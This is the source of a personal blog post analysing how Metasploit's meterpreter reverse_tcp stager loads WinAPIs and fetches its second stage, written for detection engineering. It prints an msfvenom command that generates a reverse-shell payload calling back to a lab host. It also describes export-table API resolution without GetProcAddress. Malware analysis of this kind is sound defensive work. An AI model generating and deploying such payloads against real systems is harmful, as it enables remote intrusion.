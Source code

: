 ```yaml
---
layout: post
title:  "The Inner Workings of Meterpreter"
date:   2023-09-17 00:00:00 +0000
categories: malware
---
```


This blog entry covers personal technical research on the meterpreter staging payload. Meterpreter, as part of the Metasploit framework developed by Rapid7, is a C2 framework used by white and black hats alike.

To begin analysis, I generated a 32-bit Windows meterpreter shellcode with the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. The objective is to understand how the shellcode loads the necessary DLLs and executes the second stage payload.

Understanding the mechanisms of such shellcodes will prove useful in detection engineering.

<br>
### 1. The "main" Function
To give a high-level overview of the shellcode - there is a `main` function at offset 0x95, and a `load-execute` function at offset 0x06. `load-execute` is called from `main` multiple times.

Parameteres are pushed onto the stack from `main` and are passed into `load-execute` to be passed into WinAPIs.

![ida_main](/assets/post_assets/inner-workings-of-meterpreter/ida_main.png)


<br>
### 2. The "load-execute" Function
In ideal shellcode conditions, `load-execute` will be called 7 times to resolve and execute the following WinAPIs in order.

+ kernel32.LoadLibraryA
+ ws_32.WSAStartup
+ ws_32.WSASocketA
+ ws_32.connect
+ ws_32.recv
+ kernel32.VirtualAlloc
+ ws_32.recv (receives second stage payload)

<br>
I'll describe the library loading process in pseuodocode.

{% highlight python %}
for module in moduleList:
    for export in module.exports:
        if signature.matches(export):
            export()
{% endhighlight %}

<br>
The shellcode obtains the `InMemoryOrderModuleList` structure, which it iterates to find the required WinAPI through the `ExportDirectory` structure. This allows the extraction of WinAPI addresses without calling GetProcAddress.

![ida_load2](/assets/post_assets/inner-workings-of-meterpreter/ida_load2.png)

<br>
In the first `load-execute` call, the shellcode finds the address of `LoadLibraryA` and calls `LoadLibraryA("ws2_32")`, the Winsock dll, to enable networking capabilities. 

![loadlibrary_x32](/assets/post_assets/inner-workings-of-meterpreter/loadlibrary_x32.png)


<br>
### 3. Second Stage Payload
Memory space for the second stage payload is allocated with `VirtualAlloc`. The memory space is then populated with the payload received in the second `ws32.recv` call.

![ida_virtualalloc](/assets/post_assets/inner-workings-of-meterpreter/ida_virtualalloc.png)